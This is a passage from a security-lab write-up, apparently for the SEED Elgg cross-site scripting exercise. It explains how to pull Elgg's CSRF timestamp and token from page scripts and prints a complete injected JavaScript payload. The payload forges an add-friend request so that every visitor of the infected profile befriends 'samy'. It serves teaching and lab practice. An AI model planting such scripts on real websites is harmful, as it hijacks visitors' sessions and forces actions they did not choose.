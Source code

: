So, we need to make a similar request. We can see that the request takes the following parameters:
- `friend` : The id of the user we want to add as a friend.
- `__elgg_ts` : A timestamp.
- `__elgg_token` : A token.

Notice that the `__elgg_ts` and `__elgg_token` are repeated twice. We need to send the same value for both of them.

From the request we can see that the value for `friend` is `59` for `samy`. Now we just need to find the `__elgg_ts` and `__elgg_token` values.

From inspecting the page source we can see that the `__elgg_ts` and `__elgg_token` values are in `elgg.security.token`

![](./screenshots/1_2.png)

Now we can write our script.

```html
<script type="text/javascript">
	window.onload = function () {
		var Ajax=null;
		var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
		var token="&__elgg_token="+elgg.security.token.__elgg_token;
		//Construct the HTTP request to add Samy as a friend.

		var sendurl= 'http://www.seed-server.com/action/friends/add?friend=59' + ts +  token + ts + token

		//Create and send Ajax request to add friend
		Ajax=new XMLHttpRequest();
		Ajax.open("GET",sendurl,true);
		Ajax.setRequestHeader("Host","www.seed-server.com");
		Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
		Ajax.send();
	}
</script>
```